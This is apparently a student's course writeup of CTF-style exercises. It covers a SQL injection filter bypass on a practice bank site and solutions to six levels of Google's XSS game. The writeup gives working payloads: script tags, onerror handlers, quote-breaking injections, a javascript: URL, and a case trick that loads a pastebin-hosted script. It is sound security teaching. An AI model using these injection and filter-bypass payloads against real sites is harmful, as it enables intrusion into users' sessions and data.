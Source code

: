 # Crypto II Writeup

Name: Christopher Lai
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Christopher Lai

## Assignment Writeup

### Part 1 (40 Pts)

I poked around the website for a little bit and noticed that the website queries a database for different items.  These start at 0 and go up.  I tried a basic sql injection of ```http://1337bank.money:5000/item?id=0' or '1'='1```, but got the message ```ERROR: ATTEMPTED SQL INJECTION DETECTED```.  The server is checking for some disallowed characters in the backend so I instead used the symbol ```||``` instead of the word ```or```.

This is the query that gave me the flag.

```http://1337bank.money:5000/item?id=0'||'1'='1```

Flag: ```CMSC389R-{y0u_ar3_th3_SQ1_ninj@}```

### Part 2 (60 Pts)

#### Level 1: 
They gave a vulnerable field where I could inject code, so I put the alert inside script tags and it worked.
```html
<script>alert("hi");</script>
``` 

#### Level 2:
There was a vulnerable image tag where I could inject my own code into the ```onerror``` function, which executes any arbitrary javascript.
```html
<img src="hi" onerror=alert("hi")>
```

#### Level 3:
The page used the ```num``` parameter passed in to get the image.  If you close off the quote early similar to a sql injection, you can then put your own code after.  I used the ```onerror``` function from the last challenge to input the alert.

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert("hi")'
```

#### Level 4:
The input box is not sanitizing user input so we can prematurely close the call to startTimer and call our alert.

Call to startTimer:
```html
startTimer('{{ timer }}');"
```

Inject:
```html
'); alert('hi
```

#### Level 5:
There is a ```next``` parameter in the url that is used as the target for the ```a href```.  You can call javascript from within an ```a``` tag by using ```javascript:```.  After you inject the code below, type in an email and hit next.

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("hi")
```

#### Level 6:
This site automatically loads any arbitrary file, but first checks that http or https is not in the url.  I saw the regex and capitalized HTTPS so it would load my file.  I hosted my file on pastebin, and simply put ```alert("hi");``` inside.

regex
```javascript
if (url.match(/^https?:\/\//)) {
```

url:
```
https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw/5m3aMjSK
```




